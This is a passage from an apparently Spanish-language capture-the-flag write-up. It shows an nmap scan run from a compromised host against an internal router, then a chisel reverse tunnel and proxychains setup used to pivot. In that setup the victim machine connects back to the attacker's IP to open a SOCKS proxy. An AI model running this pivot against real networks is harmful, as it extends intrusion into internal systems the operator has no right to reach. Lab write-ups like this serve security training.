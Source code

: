 Enumeraremos la los puertos, de los cuales tendremos abiertos son el 21,179,2681,2685 

![20240207190326.png](20240207190326.png)

```php
www-data@app:/tmp$ ./nmap -p- --open --min-rate 1000 -Pn -vvv -n  172.16.1.128
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack
179/tcp  open  bgp     syn-ack
2601/tcp open  zebra   syn-ack
2605/tcp open  bgpd    syn-ack
```

### Pivoting

Ahora para realizar la explotación de los puertos tendremos que realizar un túnel desde nuestra maquina atacante y la maquina comprometida con el fin de tener alcance desde nuestra maquina atacante hasta el router1, esto lo haremos con la herramienta de `chisel` y `proxychains`

Iniciaremos en modo servidor chisel en nuestra maquina atacante.

```php
❯ ./chisel server --reverse --port 9999
2024/02/08 11:20:44 server: Reverse tunnelling enabled
2024/02/08 11:20:44 server: Fingerprint r3rF2j5nDBcAqmrWpC0R+rQAztpA2Ctm4Mc7fZeG1bI=
2024/02/08 11:20:44 server: Listening on http://0.0.0.0:9999
2024/02/08 11:22:15 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

Luego también iniciaremos chisel en la maquina victima con el siguiente comando.

```php
www-data@app:/tmp$ ./chisel client 10.9.115.196:9999 R:socks
2024/02/08 17:09:52 client: Connecting to ws://10.9.115.196:9999
2024/02/08 17:09:53 client: Connected (Latency 184.235744ms)
```

Teniendo la dirección de túnel donde se redirige el túnel, agregaremos en un archivo de configuración que es `/etc/proxychains.conf` en la ultima linea un `sock5 127.0.0.1:1080`. Ahora que lo tenemos configurado podremos escanear y tener conectividad con el router1
